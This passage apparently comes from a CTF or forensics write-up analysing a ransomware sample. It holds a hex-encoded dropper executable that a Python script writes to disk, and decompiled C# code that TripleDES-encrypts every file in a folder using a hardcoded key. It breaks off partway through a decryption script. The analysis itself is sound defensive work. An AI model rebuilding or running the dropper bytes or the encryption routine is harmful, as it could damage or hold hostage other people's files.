B7&HE3&HF4&HDA&H50&H2B&H20&H4B&HEB&H5F&H5E&HB1&H3C&HB0&HAC&HF5&H6C&HF6&HE1&HDB&H41&H35&H32&H0A&H93&H0E&H0A&H68&HEB&H40&H52&HBC&H24&HD2&HC3&HD2&H49&H7D&H69&H5C&HCF&HF3&H14&H8C&H6A&H8B&HB3&HF7&H5D&H49&H3C&H2A&H9C&HC4&H6E&HDB&H5A&H42&H3E&H18&H51&H34&H2C&H7B&H31&H3E&H2D&H2A&H68&H2D&H30&HE3&H20&HC4&H7C&H1C&H71&H29&H4E&HE2&H34&H93&H08&H73&H69&HE6&HE8&H06&H3C&H3F&HE8&H75&HCF&H22&HFE&H56&HBB&HAF&H36&HE3&H9F&HD6&H3C&H72&HE8&HBE&HE9&HA8&H42&H00&HEB&HD8&H3F&H43&H89&H67&H0E&H78&HC3&H78&HBC&H4B&H32&H3F&HB0&H13&H07&H10&H3A&H73&HE0&H80&H70&H87&H9A&H71&HD7&HFC&HE8&HB6&HCD&H12&H07&H5E&H7C&H5C&H88&H3D&HAC&HFB&HAE&HF4&H5F&HDB&H9B&H28&HD8&H1A&H2C&H84&H33&H80&H98&H2F&H06&HB5&H04&H93&HFD&H7C&H92&H9A&H13&H65&H38&HF7&HBB&H0B&HC4&H3C&HE2&HD0&H8E&HD2&H20&H9D&H13&H7B&HA0&HE2&HE9&HDD&HC4&H9A&H34&H0A&HEB&HB5&H8D&H4D&H53&H5C&HC4&H33&H27&H1F&H82&H81&HD2&HF2&H12&HB4&HA3&H70&H51&HD0&HCC&HB6&HAD&H20&HFF&HC3&H15&H7C&H02&H50&H92&H54&H50&H5C&H6C&HD6&H45&HC7&H87&HCF&HF5&H06&H3C&H61&H71&HD5&HB4&HDB&H9E&H9F&HF8&HAB&HAE&H25&H8F&H56&HE6&HC1&H92&HA9&H7E&H13&HD8&H57&H3F&H17&H80&H05&HAE&H8C&HFE&H25&H77&H07&HAB&H11&HEE&H30&HE7&HA9&H63&HB6&H05&H5D&HDC&HB5&H1D&H77&H0D&HC1&HEF&H90&HCE&HB8&H9B&H06&H6F&HDE&HE5&HC7&H1C&HAA&H42&HAF&H28&H5E&H03&H63&H9C&H87&H89&H88&HB3&H31&HEF&H89&H45&HDF&H78&H3D&H3E&HDF&HC8&HAD&H30&H49&HBB&HEF&H5D&HA6&H79&H92&HC5&H7A&HE1&HE2&H6F&HE9&HC8&H95&H9A&H0E&H01&H73&H2A&H78&H47&H82&H0B&HCF&H47&H04&HDD&H3A&HDC&H9C&HBB&HDB&HC4&H83&HBB&H8B&H0E&H95&H34&H1B&HCC&H7B&H99&HD0&H48&H5E&H04&HEC&H75&H3A&HBE&HC8&H8F&HB5&H55&H3F&H98&H20&H78&H85&HED&HA7&H21&H53&H29&HAB&H42&H0E&HC8&H63&H52&HD3&H1F&H2E&HB8&H8D&H89&H8E&HB1&HAA&H02&H01&H8E&H76&H35&H81&H63&H54&H2E&H2F&H69&H43&H74&H11&H2D&HC9&H34&H2C&H6A&H04&H1F&H8C&H71&HB9&HB8&H6E&HCA&HC0&HE8&H01&HFE&H7B&H82&H21&H74&H38&H57&HBC&H20&H45&H15&HB4&H6D&HF4&HE6&H5D&HA1&H59&H78&H4B&H80&HE0&HBC&HA2&HDA&H97&HF0&HE7&H28&HA9&H78&H74&H69&H20&H2D&H4C&H59&H44&H7C&H0F&H23&HD7&HB0&H11&H03&HD7&H65&HE8&HAF&HC8&HA7&H09&HD5&H48&H61&H60&H55&HC2&H0D&HD6&HE5&HBA&H4E&H21&H70&H51&H6C&H29&HD7&H08&HC0&HD0&H9E&HC2&H64&HB3&H54&H29&H77&H15&H24&HAA&HBB&H39&HC1&HE3&H41&H8B&H5F&HE7&H1F&H27&HC6&H57&H69&H2F&H64&HE7&HEC&H04&H1F&HF2&H55&H71&HA3&HAE&H0E&H0B&H28&H16&H5B&H80&HF4&HE1&H49&HD3&HE8&H5C&HC2&HF8&HFA&H24&H7B&H6A&HB4&HCA&H5C&HA1&H17&H02&HB0&HBE&H42&HA5&H78&H47&H60&H7E&H3A&HCF&H6B&H70&H3A&H5C&HC0&H1B&H2A&HED&H54&H34&HF1&HE7&H58&H59&H6F&HAC&HDE&HC2&H88&H18&H5C&H6C&H1B&H3A&H3C&H87&H97&H82&HF5&H2C&H9F&H1B&HCE&HE7&HF2&HF0&HA0&H78&H33&H8A&HF0&HEC&HB6&H8E&H69&H77&H19&HA1&H03&H3A&H48&H79&H9D&H98&H9E&HF4&H2D&H25&H33&HD4&HEA&HCA&H9D&H2A&H0A&HDD&H5D&HA3&HA6&HD1&HC6&HFE&HC8&HAD&H87&H3A&H61&H70&HA3&H99&H73&HB0&HDA&HD4&H7E&H6A&H0C&H51&HA3&H6B&H83&HC0&HDE&H26&H9E&HC6&HF0&H9E&H54&H8E&H64&H0C&H16&H5E&H80&H10&H6E&H79&HEC&H58&H58&H7F&HEC&HBB&HF7&H71&H87&H17&H3C&H97&H52&H81&H50&HE5&H15&HA3&H07&H99','&HDE&HC5&HDD&H3C&H49&H9D&HE2&HE6&HCE&HCF&H11&H3E&HC3&H92&H26&HB3&HD7&H58&H46&H28&HEE&HAF&H84&HB1&H8A&H56&HD3&H7D&H90&H59&HE6&H18&H99&H96&HD0&HA6&H70&HA3&H39&H55&H33&H91&HFA&H14&H53&HA7&HD9&H81&H63&H1C&HA1&H37&H51&H78&H0C&HBD&HCD&H8B&H6D&HF7&H44&HEF&H7B&H42&HA7&HA7&H2E&H48&H1D&HF8&H22&H65&H2D&H85&H54&H86&HEC&H38&H04&H33&H74&HE9&H53&H28&H48&HFF&HE8&H30&H2F&HD6&HD3&HAD&HF7&H52&HFF&HE1&HBC&H69&HD6&HA0&HE1&HC1&HDD&HFE&H23&HE7&H49&HDA&H3A&HC6&H1A&H99&H87&HD9&H45&HC9&H63&HD4&H25&H6E&H6C&H13&HBA&H29&H50&HD2&HC9&HFA&HEF&H5A&H45&H31&HB8&H52&HEC&H6F&H8A&H9E&HEA&H06&HC3&H09&H71&H46&H43&HBE&HA5&H15&HE5&HEC&H12&HA6&HBE&H53&H3A&H8E&H5F&H53&HE0&HC7&H59&HDC&H7F&HCB&H6D&HB4&H0C&H71&H82&H60&H2C&H80&H8D&H95&HDF&HF5&HA8&H9D&HE0&HE9&HCE&HCF&HCD&H8D&H36&H52&H70&HCE&H97&H7C&H59&HD4&H70&HB5&H11&HEB&HA7&H60&HB4&H6B&H89&HB7&HE8&HAF&H6A&H7F&HF2&H9A&H2F&H5B&HDD&HE5&HCD&HAF&H0E&H8D&H6F&HBE&H91&H66&HFD&H87&HE2&H44&H32&HC0&H8E&H27&HC7&H4E&H82&H91&HD9&HEE&H98&H9A&H01&H38&HA9&H23&H6D&HA2&H0E&HB3&HEE&H5B&H0C&HA8&HC5&H69&HE7&H69&H0E&H0C&H4E&H7C&H7D&H64&HA9&HE5&H2C&H38&H79&H7B&H64&H02&H3A&H70&H26&H65&H36&H53&HD1&HD6&HFE&HD9&H47&H12&HDA&HC1&HEB&HE8&H31&H99&H69&HC1&H55&H23&H52&H14&HFF&HA4&HFB&HE0&HD9&HD6&HED&HDA&HCB&H3D&HB1&HC8&HEB&H21&HCA&H91&HD3&HDB&HE5&H77&H80&HD9&H90&HEB&H99&H4B&H14&HCC&H18&H5A&H90&H7C&HD3&H41&H2F&H2B&H6F&HFD&H24&H8A&H78&H8A&HEA&HD8&H3E&HFF&HA0&HD7&HC2&H9A&H48&H2B&H79&H46&HCE&H66&H7B&H41&HD2&H8A&H8C&H9D&H30&H07&HA7&HA0&H77&HC4&H27&HF0&HBD&H9B&H70&H53&H2D&HF9&H7D&H18&H9C&H91&H1E&H8A&H0B&H32&H1A&H73&H3F&H11&H80&H92&HD5&H9E&HF2&HE4&H25&HB7&H70&H99&H60&HFB&H61&H9F&H1A&HA5&H3B&H28&H13&H3E&HDF&HF9&HBB&H90&HDE&H98&H95&H3F&H0F&H1D&HC6&H73&H0D&H00&H3A&HF0&H0E&H97&HB2&H98&HF7&H4F&H69&HD8&H3E&H66&HD6&HEC&H00&H8A&H0F&H5D&H33&HCD&H80&HA9&HDA&HFA&HEE&HD4&HB9&H48&H98&HB4&HFC&H5E&HF1&HFC&H2B&H3C&H05&H38&HA0&HA9&H92&H30&HA4&HB6&H44&H38&H35&HC9&HDE&HC6&HAB&H8E&H0A&H31&H1C&HFC&H25&HC9&HCE&HDF&HB9&H77&H1F&HD6&H74&H74&H08&H37&H30&HD1&HF0&HA9&H82&H1B&HFB&H62&H4C&H6A&H55&H77&HDE&H7B&HE7&H1A&H61&H9F&HEF&HD9&HF5&H06&H7F&H89&H88&HDE&H9D&HFF&H7B&HDF&H4C&H37&HA0&HE9&H3E&HBA&H7E&H78&H6B&HF1&H87&HEC&H2D&H49&H30&HA5&H91&HFE&H32&HF6&H6C&H1D&H79&HB1&H87&H96&H8C&HA1&H72&HB7&H86&HE4&HB6&H0E&H1D&HB0&H75&H01&HF9&H20&H98&H90&H8B&H80&H5B&H90&H7E&HEA&HE8&HA4&H4D&HCC&H36&H77&HB4&HB9&H77&HBC&H0C&HCF&HEE&H11&H2A&HF1&H3C&H42&H8E&HDB&H1A&H0A&H5A&H33&HC5&H16&H8D&H3D&H64&H6A&HF7&HEB&HB0&H63&H09&H59&H59&H5F&HAF&HE4&H69&H72&HEE&HD2&H4C&HF9&HB5&HAD&H7F&H0A&H06&HDF&HF3&H0E&H14&H96&H9C&H2A&H52&HF1&H66&HB9&H0F&HF4&HF0&H4C&H1B&H5D&HAA&HE7&H7C&H66&H8A&H95&HB4&HFE&H59&H05&HEF&H8D&HAC&H65&HBC&H7D&H04&HB8&HDD&H56&H3D&H2E&HB9&H45&H10&H82&HD9&HC2&HF3&H5C&H47&H8E&H15&H0D&HA4&H21&HFB&HC5&H63&H6B&H33&H8D&HFE&H32&HDC&H41&H8C&H96&HDE&H7B&H85&H66&HCB&H68&H42&HFF&H4A&HC8&HF7&H4D&H2F&HB9&H77&H7F&HA5&H9C&HA2&H9D&HCA&H96&HFE&H99&HF3&H5C&H0B&H39&H3B&H56&HC6&HA0&H29&HBB&HFB&HE9&HD7&HD6&HCD&H52&H00&H25&H0F&H0C&H5C&H82&H38&H9A&H67&H35&H0F&H2E&H1D&H5F&HA1&H6D&H42&HD6&H5E&H26&HA9&HFA&H62&H60&HEE&H18&H03&HC5&H80&HF7&HA9&HD7&H6A&HB9&H55&H21&H64&H9D&H3F&HA3&HAE&H63&H16&H2F&H18&HAD&H33&H34&H56&H76&H2E&H9D&HC9&HE8&HBC&H84&H4A&H2F&H53&HD6&H87&H8B&H3D&H33&H93&HE0&H0A&H88&H42&HB8&HC6&HE0&HF3&H4C&H13&HB5&HEC&H74&HB8&H36&H32&H66&HA7&H1F&HDE&H27&H8D&HEF&HA7&HBD&H55&H79&HCA&H2A&H91&HD8&H83&H0C&H39&H94&H88&H8D&HCB&H6D&H26&H68&H48&H6D&HF7&H3F&HA9&H6F&HB4&HFC&H84&HE5&HD7&HD7&HDE&H98&H71&HC9&HEF&H8B&H8A&H57&H32&H64&HF1&HE0&H48&H6D&H91&H85&HE0&H77&HD5&H79&H9B&H6F&HFA&H8F&HC1&H04&H87&H96&HEE&HE2&H4D&HEE&HB1&H48&HBF&H8E&HBE&H6A&H65&H24&HBB&H33&HEF&H3C&H46&H25&HCE&H55&H2E&H66&H41&H8F&H7D&HD9&H11&HC3&H33&H8C&H9F&H88&H4A&H91&H15&HB1&H1C&H57&HCF&H9F&H09&H60&H5B&H53&H26&H42&H72&H14&H40&H3A&HF5&HBE&H5F&H0E&HD9&H51&H59&H33&H7A&H77&H98&HC8&H27&H35&H0B&HB2&H4A&HCE&H82&H27&HF3&H76&HC4&HA5&H7E&HAD&H9B&HCD&H15&H49&H04&HC6&H4B&H32&H75&H13&H19&H72&H4E&H93&HD8&HDF&H0D&H53&H67&H40&HCC&HB9&HAA&H94&H1D&H42&H6E&HCB&H21&H1E&HD5&H07&H7A&H68&HDB&HB1&HED&H62&H64&H8B&HE5&HB8&HE4&H65&H93&H4A&H0D&HD8&H0C&H61&H2D&H2B&H60&H40&HEB&H11&HE6&H96&H23&HC8&H4E&H71&HDC&HB7&H03&HD6&H08&HE5&HFC&H18&HBE&H97&H47&H08&H47&HDF&H76&H5E&HB3&H47&H49&HFF&H28&H1E&H11&H9B&H3E&H42&H76&H84&HD2&H13&HD5&HC8&HA9&H97&HF8&HAC&H55&H26&H51&H72&HF3&H64&HB8&H13&H7D&HE8&HBC&H73&HBC&HD4&H2F&HCE&HA3&H58&H64&H9E&HAD&H3B&HB1&H2D&HB8&H94&HE5&H42&H5B&HD6&HAB&H08&HE6&H66&HEA&HB0&H3E&H30&H3C&HF1&H4B&H32&HED&HFD&H1D&H27&HB8&HDE&H83&H7B&H11&H9E&HE0&H7E&HAA&H58&HAC&H96&H82&H93&H62&HB1&HB3&HE1&HB7&H46&H21&H23&H4F&HDC&H26&HC7&HDD&HF0&H66&H43&H23&H62&H77&H11&H09&H49&HFB&H93&H5C&H5E&H8E&HA5&HB2&H95&HFF&HA2&HDA&HF1&H71&H3B&HDD&H5D&HB3&H46&H1E&H41&HBE&HF0&H6B&H6E&H73&H3C&H9C&H54&H07&H8A&H71&H61&H5B&H30&H28&H75&H82&HF7&H03&H2B&H2E&H9D&HFF&H2D&HED&HF7&H35&H1F&HC5&H88&H73&H26&H7A&HD1&H58&HDE&H76&H1C&HC2&HB3&H89&H81&H8E&HD1&HA2&H6B&HAD&HF1&H42&HE2&H76&H86&H0E&HB0&H6E&H17&H12&H3F&H51&H55&H42&H93&HB6&H1D&HD2&HCC&H05&H89&H74&H58&H7A&H3B&H3F&H1B&HBE&HF5&HDC&HC4&HC8&HDF&H8D&H4A&H53&H38&H85&HA8&H0C&H6A&H1A&HEC&HBA&H05&HF7&HA5&H4C&H3B&H38&HC9&HF9&H54&HAF&H0C&H0D&HAD&H72&H17&H84&H79&H33&HC9&H5B&HED&H0E&H60&H99&HBE&H8F&H43&H24&HBE&H59&HBD&H05&H48&HA2&H85&H43&H02&H18&H91&H3A&H01&H99&HEE&H8B&H04&HE3&H62&H59&HA7&H93&HD0&H41&H45&H3C&H2E&HA8&H72&H8D&H14&H26&H1D&H34&H37&HCC&HB8&H1C&H37&HF8&HD0&H8C&HE4&H34&HB9&HDE&H7E&H87&H92&H3A&HF3&H45&H71&HB2&H5F&H19&H4B&HC5&H3A&H09&HAD&H6E&H62&H00&H03&H63&H67&HCE&HA7&H98&H25&H5D&HA5&HA2&H8D&H88&H49&H61&H9E&HD5&H84&H00&HFD&H70&H52&H45&HDE&HFA&HE0&HAC&H01&H53&HE8&HE5&H22&H31&HF3&HBD&H27&HD8&H3A&HCE&H39&H90&H67&H2E&H3E&H48&HBB&H27&HCC&H17&H87&HD9&H2E&H88&H84&H97&H6F&H16&H6C&HE7&H50&HB3&H29&H8F&H94&HBF&H09&H98&H98&HAC&HCA&H9D&HC5&HD9&H1D&H35&HAF&H1B&H9C&HCE&H5C&H8B&HD6&H0D&H44&H49&H28&H71&H49&H45&H0B&HCC&HE6&H7F&H37&HB5&H03&HF7&H52&H08&H40&H18&H77&H54&H2F&H1C&H50&HF3&H6F&HFF&H0E&H35&HE9&H4B&H46&H90&H8F&H2C&HCE&HFF&HA8&H23&HA8&HCF&H80&H78&HB5&HBE&HC2&HE9&HD2&H2B&HF3&H8A&H4E&H4C&H3B&H8F&HB3&H01&HBF&H58&H07&HF8&H71&H9F&HC9&HCA&H10&H85&H83&H05&HC0&HB2&H44&HF6&HD3&H3A&HE3&HFD&H12&H0D&H5E&H90&H54&HA9&H57&H69&HA2&HCA&HBC&HF6&H5C&HA1&HF4&H37&HC3&H7D&HB1&H99&HCE&HC6&H7F&H0F&H4D&H71&H02&H61&HA2&HDD&H68&H33&H57&HE5&H15&H5F&H1C&H84&H90&H6C&HD8&H5A&H99&HD7&HC7&H25&H73&H8C&H0B&H2D&HF7&HB3&HD1&HA0&HEF&HCD&H83&H64&H04&HA5&H26&H66&HC0&HC0&H6C&H1B&HDC&H9A&H51&H02&H28&HF0&H28&HB6&H06&HE3&H83&H00&HE1&HBC&H78&H69&HCF&H1F&HB0&H51&H17&H33&H1E&HE4&H39&HCB&H19&H94&H9C&HB5&H62&H9F&H4D&HDD&H4E&HAC&HEE&H55&HF4&HAB&H52&H06&HAF&H30&H69&HFE&H1F&H60&H4A&H60&HCF&H46&H3F&H7A&H1C&H51&H75&HC4&HE4&HEF&H44&H40&H03&H5E&H8F&H56&H7A&H0E&HE6&H26&H98&H7F&H80&H77&H15&HE8&H1A&H7D&HFE&HF3&H16&H7C&HB0&HC4&H36&HF2&H9D&H56&H38&H65&H8F&H9D&H43&H7F&HCA&H04&H21&H11&H7E&H9B&HF9&H40&H0A&H7C&H1E&H39&H23&H1E&HF9&H3C&HC2&H3E&H4E&HC7&HCA&HF5&H57&H2A&H11&HA1&H9D&H55&H4D&HC0&HE0&HC6&H9A&H5C&H61&HCF&HB1&H69&H13&H03&H8B&H37&H32&HAA&H87&H7D&HF3&HC3&H56&HFC&HDB&H59&H1F&H87&H0B&HA7&H68&H76&HB7&H69&HCE&H53&H82&H68&H43&H70&H23&HFA&H33&H8E&H80&HDC&H7C&H44&HBF&H90&H65&HFA&H10&H6B&HF6&H4B&H4E&HA4&H6C&H4E&HED&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00', '&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H2C&H30&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H54&H30&H00&H00&H38&H30&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H40&H30&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H40&H30&H00&H00&H00&H00&H00&H00&H9C&H00&H45&H78&H69&H74&H50&H72&H6F&H63&H65&H73&H73&H00&H00&H00&H00&H30&H00&H00&H4B&H45&H52&H4E&H45&H4C&H33&H32&H2E&H64&H6C&H6C&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H0D&HB5&HFF&HCF&H94&H89&H9F&H4D&H2E&H57&HED&H5D&HA2&H6F&H5E&H29&H99&H50&H8A&HEC&H28&HD7&HB7&HF9&H00&HA1&HFB&HC1&HCA&H37&H8D&HB4&HAD&H81&H9F&H41&H8C&H5C&HCE&H11']

new_a = ""
for i in a:
	new_a += i.replace('&H', '')

tmp = bytes.fromhex((new_a))
out = open("dump.exe", "wb")
out.write(tmp)
```

Open the PE file using IDA.

<figure><figcaption></figcaption></figure>

Looks like it obfuscated, lets try to upload it on [virustotal](https://www.virustotal.com/gui/file/716b65a42612f32fa410f3365eae3e348b9f046d5678e280f8e448d8c6e7b852/relations). There is suspicious URL contacted by the executable.&#x20;

<figure><figcaption></figcaption></figure>

dump.exe should be the dropper and it will download ransomware.exe. Download ransomware.exe then  open it using dnSpy because it is .net executable.

<pre class="language-csharp"><code class="lang-csharp">internal class b
{
	// Token: 0x06000003 RID: 3 RVA: 0x000020FC File Offset: 0x000002FC
	private static void a(string[] A_0)
	{
		string text = "Lp3jXluuW799rnu4";
		byte[] array = new byte[]
		{
			0,
			1,
			2,
			3,
			4,
			5,
			6,
			7
		};
		&#x3C;Module>.h = 2081625616;
		byte[] array2 = array;
		string currentDirectory = Directory.GetCurrentDirectory();
		&#x3C;Module>.k = -1592258590;
		&#x3C;Module>.a = null;
		int num = 1386028750;
		int l = -1437277352;
		&#x3C;Module>.n = -1592516334;
		&#x3C;Module>.l = l;
		&#x3C;Module>.d = num;
		string[] files = Directory.GetFiles(currentDirectory, "*.*");
		&#x3C;Module>.n = 2136656571;
		string[] array3 = files;
		&#x3C;Module>.d = null;
		string[] array4 = array3;
		int num2 = 0;
		bool flag;
		&#x3C;Module>.g = flag;
		string text2;
		for (;;)
		{
			&#x3C;Module>.k = 1326660401;
			&#x3C;Module>.e = 1818084011;
			int num3 = num2;
			string[] array5 = array4;
			&#x3C;Module>.j = -1529522494;
			bool flag2 = num3 &#x3C; array5.Length;
			&#x3C;Module>.o = 1526447315;
			&#x3C;Module>.j = 1987339265;
			flag = flag2;
			bool flag3 = flag;
			&#x3C;Module>.a = null;
			if (!flag3)
			{
				break;
			}
			&#x3C;Module>.j = 1845842485;
			TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider;
			&#x3C;Module>.c = tripleDESCryptoServiceProvider;
			text2 = array4[num2];
			try
			{
				&#x3C;Module>.q = -759738571;
				&#x3C;Module>.b = null;
				&#x3C;Module>.q = 1898371779;
				string path = text2;
				global::a.b = flag;
				byte[] array6 = File.ReadAllBytes(path);
				&#x3C;Module>.g = null;
				global::a.b = "185ee01d-8c67-459c-9586-6804417e592ce434881f-7f35-4ffd-bdf6-4a1f244e25084e41b92d-afec-";
				&#x3C;Module>.d = null;
				byte[] array7 = array6;
				&#x3C;Module>.h = 1308380089;
				tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
<strong>				SymmetricAlgorithm symmetricAlgorithm = tripleDESCryptoServiceProvider;
</strong>				Encoding ascii = Encoding.ASCII;
				string s = text;
				&#x3C;Module>.k = 401140706;
<strong>				symmetricAlgorithm.Key = ascii.GetBytes(s);
</strong>				&#x3C;Module>.o = 1203310366;
				SymmetricAlgorithm symmetricAlgorithm2 = tripleDESCryptoServiceProvider;
				byte[] iv = array2;
				c.b = text;
<strong>				symmetricAlgorithm2.IV = iv;
</strong>				byte[] array8 = global::b.b(array7, tripleDESCryptoServiceProvider);
				string path2 = text2;
				byte[] bytes = array8;
				&#x3C;Module>.n = -1749758540;
				File.WriteAllBytes(path2, bytes);
				string str = "Encrypted: ";
				global::a.b = "102abfb4-ec8b-4922-9b54-2f17b2c5b52d6d";
				string str2 = text2;
				Exception ex;
				&#x3C;Module>.a = ex;
				Console.WriteLine(str + str2);
				c.b = 1876936332;
			}
			catch (Exception ex2)
			{
				&#x3C;Module>.m = -1040838703;
				Exception ex = ex2;
				string str3 = "Error: ";
				Exception ex3 = ex;
				global::a.b = tripleDESCryptoServiceProvider;
				string value = str3 + ex3.Message;
				&#x3C;Module>.o = 1057425350;
				&#x3C;Module>.d = null;
				Console.WriteLine(value);
				global::a.b = "dd91927e-4e7c-4176-b90a-bb4a9049b638480c140d-829f-4";
				&#x3C;Module>.e = 1957620381;
				&#x3C;Module>.a = null;
				&#x3C;Module>.m = -1748580011;
				int q = 2097519326;
				&#x3C;Module>.m = -1932913121;
				&#x3C;Module>.q = q;
			}
			&#x3C;Module>.c = text2;
			&#x3C;Module>.k = 480802764;
			object b = null;
			&#x3C;Module>.a = flag;
			c.b = b;
			&#x3C;Module>.h = num2;
			&#x3C;Module>.g = text;
			int num4 = num2;
			int num5 = 1;
			&#x3C;Module>.k = 2071185029;
			int num6 = num4 + num5;
			object g = null;
			c.a = tripleDESCryptoServiceProvider;
			&#x3C;Module>.g = g;
			object b2 = 1952428595;
			&#x3C;Module>.q = 1809257038;
			c.b = b2;
			num2 = num6;
		}
		Console.ReadLine();
		&#x3C;Module>.j = num2;
		bool flag4 = flag;
		&#x3C;Module>.o = 721847420;
		&#x3C;Module>.l = 796469985;
		&#x3C;Module>.q = -1051365525;
		&#x3C;Module>.n = num2;
		&#x3C;Module>.f = flag4;
		c.a = text2;
	}
</code></pre>

From the higlighted line we know the key, iv, and algorithm. Write script to automate decryption process of the encrypted file.

```python
from Crypto.Cipher import DES3
import glob

key = b"Lp3jXluuW799rnu4"
iv = [0,
